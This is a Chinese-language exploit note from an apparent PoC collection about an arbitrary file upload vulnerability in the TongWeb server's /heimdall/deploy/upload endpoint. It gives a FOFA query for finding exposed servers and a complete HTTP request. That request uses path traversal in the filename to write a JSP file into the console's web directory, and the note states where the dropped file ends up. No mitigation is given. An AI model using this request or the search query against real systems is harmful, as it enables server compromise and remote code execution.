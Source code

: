 # 东方通upload接口存在任意文件上传漏洞

东方通upload接口存在任意文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
header="TongWeb Server" || banner="Server: TongWeb Server"
```

## poc

```javascript
POST /heimdall/deploy/upload?method=upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Connection: keep-alive
Content-Length: 396
Accept: */*
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs

------WebKitFormBoundary8UaANmWAgM4BqBSsContent-Disposition: form-data; name="file"; filename="../../applications/console/css/12462332j12.jsp"

123456
------WebKitFormBoundary8UaANmWAgM4BqBSs--
```

文件路径`/console/css/12462332j12.jsp`

![3defeacdea561cbf5f9437781d48707d](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409251124922.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/5YXeW7rlQ17Kz-6MvrzzKA